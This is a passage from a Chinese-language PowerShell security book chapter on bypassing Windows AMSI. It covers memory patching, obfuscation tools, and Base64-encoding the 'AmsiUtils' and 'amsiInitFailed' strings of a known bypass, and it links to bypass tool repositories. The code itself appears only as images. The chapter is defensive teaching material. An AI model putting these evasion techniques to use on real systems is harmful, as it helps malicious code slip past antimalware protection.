

图 12.14 – 使用内存修补绕过 AMSI

由于此绕过方法仅用于本书中演示对手如何提出新的绕过方法的示例，此绕过方法已报告给 Microsoft，在发布本书之前，此绕过方法应该不再有效。

当然，并不是唯一的内存修补方法。现场还有各种其他例子。但这个例子应该能帮助你更好地理解这种绕过方法的工作原理。

在野外发现的 AMSI 绕过方法有一个非常棒的概述，由`S3cur3Th1sSh1t`创建：[`github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell`](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)。

大多数尝试篡改 AMSI 以暂时禁用或破坏其功能。但所有这些方法都已广为人知，如果没有进一步混淆，将会被检测到。

## 混淆

混淆是绕过反病毒检测的另一种方法。现在市面上有许多自动化的混淆工具——例如，`Invoke-Obfuscation`，这是由 Daniel Bohannon 编写的：[`github.com/danielbohannon/Invoke-Obfuscation`](https://github.com/danielbohannon/Invoke-Obfuscation)。

但是像这样的自动化工具非常知名，经过这种混淆的脚本很可能会被检测到。

还有一些工具，例如 `AMSI fail`，它生成混淆的 PowerShell 代码片段，用于临时禁用当前会话中的 AMSI：[`amsi.fail/`](https://amsi.fail/)。

`AMSI fail` 生成的代码片段是从一个方法池中随机选择的，并且在运行时进行了混淆。这意味着生成的输出应该还没有被反恶意软件产品所识别，但实际上，许多这些生成的绕过方法已经被 AMSI 检测到，因为反恶意软件供应商不断改进他们的算法和签名。

同时，一旦某个有效载荷在某个攻击中被使用，通常不会太久它的签名就会被检测到。但它可能是你下次红队行动中避免 AMSI 的一种方法。

最终，根据你的成熟度，理解如何绕过签名并编写手动混淆方法可能是有意义的。以适当的方式解释如何做到这一点超出了本书的内容。不过，`s3cur3th1ssh1t` 有一篇很棒的博客文章，介绍了如何手动绕过 AMSI：[`s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/`](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)。

## Base64 编码

Base64 是一种将二进制数据编码为 ASCII 字符串的方法。因此，如果你记得我们之前在配置中讨论的 Matt Graeber 绕过方法，实际的绕过如今已经被 AMSI 阻止了。但如果在这个绕过中使用的字符串（`AmsiUtils` 和 **amsiInitFailed**）经过 Base64 编码，并在运行命令时解码，那么绕过仍然有效。

首先，让我们使用 Base64 对这两个字符串进行编码：



然后，我们用解码这些字符串的命令来替换它们并运行命令：



通常，编码和解码字符串可以避免绕过 AMSI 和其他检测。但反病毒程序仍然有可能检测到它。

# 总结

AMSI 是一个很棒的工具，帮助你保护你的环境。它已经能够防御大多数恶意代码，并且由于恶意软件供应商不断改进他们的解决方案，只要你保持反恶意软件软件的更新，它将帮助你抵御大多数已知（甚至可能是一些未知）的威胁。

但是与其他解决方案类似，这当然不是解决所有问题的方法，而且有方法可以绕过它。然而，由于反恶意软件供应商总是在寻找新的发现来改进他们的产品，绕过一旦被发现，检测通常会很快出现。

AMSI 是解决方案的一部分，但不是全部，要保持你的环境尽可能安全，你需要记住还有许多其他方式。在*第十三章*，“还有什么？——进一步的缓解措施和资源”中，我们将探讨你还能做些什么来确保你的环境安全。

# 进一步阅读

如果你想深入了解本章中提到的一些主题，可以查看以下资源：

+   IAntimalwareProvider 接口（**amsi.h**）：[`learn.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iantimalwareprovider`](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iantimalwareprovider)

+   面向开发者的 AMSI 及示例代码: [`learn.microsoft.com/en-us/windows/win32/amsi/dev-audience`](https://learn.microsoft.com/en-us/windows/win32/amsi/dev-audience)

+   更好地了解数据源：恶意软件扫描接口：[`redcanary.com/blog/amsi/`](https://redcanary.com/blog/amsi/)

+   无文件威胁：[`docs.microsoft.com/en-us/windows/security/threat-protection/intelligence/fileless-threats`](https://docs.microsoft.com/en-us/windows/security/threat-protection/intelligence/fileless-threats)

+   通过手动修改绕过 AMSI

第一部分: [`s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/`](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

第二部分: [`s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/`](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)

+   Revoke-Obfuscation：使用科学方法检测 PowerShell 混淆：[`www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science-wp.pdf`](https://www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science-wp.pdf)

+   篡改 Windows 事件追踪：背景、攻击与防御（也包含 AMSI 事件追踪的上下文）：[`medium.com/palantir/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63`](https://medium.com/palantir/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63)

+   恶意软件扫描接口（AMSI）– 微软文档：[`docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal`](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)

+   寻找 AMSI 绕过方法：[`blog.f-secure.com/hunting-for-amsi-bypasses/`](https://blog.f-secure.com/hunting-for-amsi-bypasses/)

+   恶意软件扫描接口检测光学分析方法：WMI 中的 AMSI 识别与分析: [`posts.specterops.io/antimalware-scan-interface-detection-optics-analysis-methodology-858c37c38383`](https://posts.specterops.io/antimalware-scan-interface-detection-optics-analysis-methodology-858c37c38383)

绕过 AMSI 的工具：

+   Seatbelt：[`github.com/GhostPack/Seatbelt`](https://github.com/GhostPack/Seatbelt)

+   AMSI 失败：[`amsi.fail/`](https://amsi.fail/)

+   AMSITrigger：[`github.com/RythmStick/AMSITrigger`](https://github.com/RythmStick/AMSITrigger)

+   内存修补 AMSI 绕过：

[`github.com/rasta-mouse/AmsiScanBufferBypass`](https://github.com/rasta-mouse/AmsiScanBufferBypass)

[`rastamouse.me/memory-patching-amsi-bypass/`](https://rastamouse.me/memory-patching-amsi-bypass/)

你还可以在本章的 GitHub 仓库中找到所有提到的链接：*第十二章* – 无需手动输入每个链接：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Links.md`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Links.md)
